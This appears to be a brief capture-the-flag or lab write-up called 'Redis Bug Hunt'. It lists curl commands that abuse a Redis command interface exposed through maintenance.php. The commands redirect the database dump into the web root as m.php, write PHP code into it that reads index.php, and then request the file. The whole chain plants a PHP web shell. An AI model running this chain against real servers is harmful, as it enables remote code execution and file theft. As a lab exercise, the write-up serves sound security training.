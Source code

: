 # Redis Bug Hunt
The objective is to retrieve the index.php file from the server.

This can be done using these commands:

    curl [http://localhost/maintenance.php?cmd=config,set,dir,/var/www/html](http://localhost/maintenance.php?cmd=config,set,dir,/var/www/html)
    curl http://localhost/maintenance.php?cmd=config,set,dbfilename,m.php
    curl '[http://localhost/maintenance.php?cmd=set,test](http://localhost/maintenance.php?cmd=set,test),<?php%20phpinfo();%20?>'
curl '[http://localhost/maintenance.php?cmd=set,test](http://localhost/maintenance.php?cmd=set,test),<?php%20echo%20file_get_contents("index.php");%20?>'
curl http://localhost/maintenance.php?cmd=save
curl [http://localhost/](http://localhost/m.php)[m](http://localhost/m.php)[.php](http://localhost/m.php) –output -

<!--stackedit_data:
eyJoaXN0b3J5IjpbLTExMjI2ODExOSw3MzA5OTgxMTZdfQ==
-->
